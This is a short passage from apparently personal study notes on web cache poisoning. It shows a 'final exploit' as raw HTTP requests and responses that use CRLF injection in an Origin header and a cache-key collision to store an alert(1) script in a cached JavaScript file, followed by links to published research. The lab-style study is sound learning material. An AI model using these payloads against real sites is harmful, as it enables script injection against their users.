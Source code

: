 Final exploit:

```http
GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/1.1
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

HTTP/1.1 200 OK
Access-Control-Allow-Origin: x
X-Cache-Key: /js/localize.js?lang=en?cors=1&x=1$$Origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
Connection: close
Content-Length: 8

alert(1)


GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1

HTTP/1.1 302 Found
Location: /login/?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23
X-Cache-Key: /login?lang=en$$
```
![](../../zzz_res/attachments/Pasted%20image%2020230702145610.png)

# External resources and references

- [Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)
- [Web Cache Entanglement: Novel Pathways to Poisoning](https://portswigger.net/research/web-cache-entanglement)
- [Next.js, Cache, and Chains The Stale Elixir](../../Readwise/Articles/zhero_web_security%20-%20Next.js,%20Cache,%20and%20Chains%20The%20Stale%20Elixir.md)
- [Next.js and Cache Poisoning: A Quest for the Black Hole](../../Readwise/Articles/Vulnerability%20Researcher%20-%20Next.js%20and%20Cache%20Poisoning%20A%20Quest%20for%20the%20Black%20Hole.md)
